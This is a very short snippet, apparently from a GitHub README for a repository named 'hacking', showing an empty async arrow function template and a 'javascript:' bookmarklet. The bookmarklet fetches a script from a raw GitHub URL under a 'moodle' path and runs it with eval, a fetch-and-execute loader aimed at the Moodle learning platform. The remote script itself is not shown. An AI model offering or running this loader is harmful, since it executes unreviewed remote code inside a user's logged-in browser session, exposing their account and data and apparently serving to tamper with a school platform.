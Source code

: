 ### Async Arrow Function
`(async () => {  })();`

### Script
`javascript:fetch("https://raw.githubusercontent.com/TecVit/hacking/refs/heads/main/moodle/script.js").then(t=>t.text()).then(eval);`